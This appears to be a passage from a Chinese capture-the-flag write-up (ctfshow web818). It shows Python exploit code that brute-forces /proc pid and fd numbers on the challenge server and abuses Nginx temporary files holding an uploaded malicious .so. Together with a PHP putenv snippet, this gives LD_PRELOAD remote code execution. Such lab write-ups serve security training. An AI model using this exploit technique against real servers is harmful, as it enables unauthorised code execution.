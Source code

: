 ```python
	while True:
		for fd in range(3,40):
			print(fd)
			s=socket.socket()
			s.connect(('pwn.challenge.ctf.show',port))
			s.send(f'''GET /?file=/proc/{pid}/fd/{fd} HTTP/1.1
Host: 127.0.0.1
Connection: close

'''.encode())
			print(s.recv(2048).decode())
			s.close()


for i in range(30):
    t = threading.Thread(target=upload)
    t.start()
for j in range(30):
    a = threading.Thread(target=bruter)
    a.start()




```

##  web818

考点：还是通过上传一个特别大的so文件（有恶意的代码和一些其他的东西）,让Nginx产生临时文件，文件内容写入临时文件，然后env的路径赋值临时文件的路径，最后就是LD_PRELOAD环境变量RCE

需要爆破pid号和fd下的号

```php
$env = $_GET['env'];
if(isset($env)){
	putenv($env);
	system("echo ctfshow");
}else{
	system("ps aux");
}
```

本子：

```php
# coding: utf-8

import urllib.parse
import  threading, requests
import socket
import re
port= 28133
s=socket.socket()
s.connect(('pwn.challenge.ctf.show',port))
s.send(f'''GET / HTTP/1.1
Host:127.0.0.1

	'''.encode())
data=s.recv(1024).decode()
s.close()
pid = re.findall('(.*?) www-data',data)[0].strip()
print(pid)
l=str(len(open('hack.so','rb').read()+b'\n'*1024*200)).encode()
def upload():
	while True:
```